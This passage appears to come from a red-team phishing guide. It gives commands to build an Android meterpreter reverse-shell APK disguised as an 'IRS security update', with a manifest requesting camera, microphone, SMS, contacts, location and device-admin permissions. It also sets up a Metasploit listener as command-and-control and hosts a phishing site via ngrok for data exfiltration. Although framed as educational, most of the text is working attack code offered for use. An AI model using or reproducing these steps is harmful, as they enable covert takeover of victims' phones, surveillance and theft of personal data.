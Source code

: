## APK Payload Creation

### Generate Malicious APK
```bash
# Use msfvenom for educational payload
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o irs_security_update.apk

# Alternative: Manual APK with custom payload
# Create minimal Android project with malicious intent
```

### APK Manifest Permissions
```xml
<!-- AndroidManifest.xml for red team APK -->
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
<uses-permission android:name="android.permission.READ_PHONE_STATE" />
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
<uses-permission android:name="android.permission.CAMERA" />
<uses-permission android:name="android.permission.RECORD_AUDIO" />
<uses-permission android:name="android.permission.READ_CONTACTS" />
<uses-permission android:name="android.permission.READ_SMS" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
<uses-permission android:name="android.permission.DEVICE_ADMIN" />
```

## Infrastructure Setup

### 1. Command & Control Server
```bash
# Set up Metasploit listener
msfconsole
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit -j

# Alternative: Custom C2 with Python
python3 -m http.server 8080 --bind 0.0.0.0
```

### 2. Phishing Site Hosting
```bash
# Host on local network for exercise
python3 -m http.server 80

# Or use ngrok for external access
ngrok http 80

# Update JavaScript with your ngrok URL for data exfiltration
```
